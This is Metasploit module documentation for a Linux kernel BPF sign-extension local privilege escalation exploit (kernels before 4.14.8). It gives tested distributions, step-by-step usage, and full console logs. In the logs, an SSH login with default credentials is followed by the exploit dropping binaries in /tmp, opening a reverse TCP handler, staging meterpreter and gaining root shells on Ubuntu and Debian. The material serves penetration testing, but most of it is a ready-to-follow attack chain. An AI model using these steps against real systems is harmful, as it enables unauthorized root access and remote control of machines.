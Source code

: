 ## Vulnerable Application

  Linux kernel prior to 4.14.8 utilizes the Berkeley Packet Filter (BPF)
  which contains a vulnerability where it may improperly perform sign
  extension. This can be utilized to escalate privileges.

  The target system must be compiled with BPF support and must not have
  `kernel.unprivileged_bpf_disabled` set to `1`.

  This module has been tested successfully on:

  * Debian 9.0 kernel 4.9.0-3-amd64;
  * Deepin 15.5 kernel 4.9.0-deepin13-amd64;
  * ElementaryOS 0.4.1 kernel 4.8.0-52-generic;
  * Fedora 25 kernel 4.8.6-300.fc25.x86_64;
  * Fedora 26 kernel 4.11.8-300.fc26.x86_64;
  * Fedora 27 kernel 4.13.9-300.fc27.x86_64;
  * Gentoo 2.2 kernel 4.5.2-aufs-r1;
  * Linux Mint 17.3 kernel 4.4.0-89-generic;
  * Linux Mint 18.0 kernel 4.8.0-58-generic;
  * Linux Mint 18.3 kernel 4.13.0-16-generic;
  * Mageia 6 kernel 4.9.35-desktop-1.mga6;
  * Manjero 16.10 kernel 4.4.28-2-MANJARO;
  * Solus 3 kernel 4.12.7-11.current;
  * Ubuntu 14.04.1 kernel 4.4.0-89-generic;
  * Ubuntu 16.04.2 kernel 4.8.0-45-generic;
  * Ubuntu 16.04.3 kernel 4.10.0-28-generic;
  * Ubuntu 16.04.5 kernel 4.4.0-116-generic;
  * Ubuntu 17.04 kernel 4.10.0-19-generic;
  * ZorinOS 12.1 kernel 4.8.0-39-generic.

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_sign_extension_priv_esc`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-116-generic)

#### Initial Access

  ```
  resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
  resource (ubuntu.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (ubuntu.rb)> set username ubuntu
  username => ubuntu
  resource (ubuntu.rb)> set password ubuntu
  password => ubuntu
  resource (ubuntu.rb)> exploit
  [+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
  [*] Command shell session 1 opened (1.1.1.1:36273 -> 2.2.2.2:22) at 2018-03-23 20:42:04 -0400
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system
  [*] Writing files to target
  [*] Writing vQIIRofN to /tmp/vQIIRofN.c
  [*] Max line length is 65537
  [*] Writing 7797 bytes in 1 chunks of 26837 bytes (octal-encoded), using printf
  [*] Writing iuRJiXBf to /tmp/iuRJiXBf
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003869aa00
  [*] uidptr = ffff8800354fb244
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vQIIRofN.c
  [+] Deleted /tmp/vQIIRofN
  [+] Deleted /tmp/iuRJiXBf
  
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  ```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [-] gcc is not installed.  Compiling will fail.
  [*] Dropping pre-compiled exploit on system
  [*] Writing vsQTwocG to /tmp/vsQTwocG
  [*] Max line length is 65537
  [*] Writing 14040 bytes in 1 chunks of 36802 bytes (octal-encoded), using printf
  [*] Writing JDQDHtEG to /tmp/JDQDHtEG
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003a8a3800
  [*] uidptr = ffff88003d276304
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vsQTwocG
  [+] Deleted /tmp/JDQDHtEG
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```

### Debian 9.0 (x86_64)

  ```
  msf5 > use exploit/linux/local/bpf_sign_extension_priv_esc 
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set compile False
  compile => False
  msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.JBJBxoEO' (34784 bytes) ...
  [*] Writing '/tmp/.1pZhL1gc' (207 bytes) ...
  [*] Launching exploit ...
  [*] Sending stage (861480 bytes) to 172.16.191.236
  [*] Cleaning up /tmp/.1pZhL1gc and /tmp/.JBJBxoEO ...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-9-0-x64.local
  OS           : Debian 9.4 (Linux 4.9.0-3-amd64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```
